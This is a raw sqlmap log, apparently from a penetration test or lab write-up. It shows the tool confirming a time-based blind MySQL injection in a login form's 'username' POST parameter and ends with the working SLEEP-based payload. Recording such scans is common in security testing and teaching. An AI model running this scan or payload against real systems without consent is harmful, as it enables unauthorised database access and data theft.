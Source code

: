```shell
      |_|V...       |_|   https://sqlmap.org                                                                                                                                                                       

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 22:26:30 /2025-10-26/

[22:26:30] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=6idsfq1mm85...dtq60lh3gs'). Do you want to use those [Y/n] y
[22:26:34] [INFO] checking if the target is protected by some kind of WAF/IPS
[22:26:34] [INFO] testing if the target URL content is stable
[22:26:34] [INFO] target URL content is stable
[22:26:34] [WARNING] heuristic (basic) test shows that POST parameter 'username' might not be injectable
[22:26:34] [INFO] testing for SQL injection on POST parameter 'username'
[22:26:34] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:34] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[22:26:34] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[22:26:34] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[22:26:35] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[22:26:35] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[22:26:35] [INFO] testing 'Generic inline queries'
[22:26:35] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[22:26:35] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[22:26:35] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[22:26:35] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[22:26:45] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 

[22:27:15] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[22:27:15] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[22:27:15] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[22:27:15] [INFO] target URL appears to have 3 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] y
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[22:27:30] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql') 
[22:27:30] [INFO] target URL appears to be UNION injectable with 3 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[22:27:34] [INFO] checking if the injection point on POST parameter 'username' is a false positive
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 149 HTTP(s) requests:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=bla' AND (SELECT 9747 FROM (SELECT(SLEEP(5)))FPmx) AND 'nNFy'='nNFy&password=blabla
```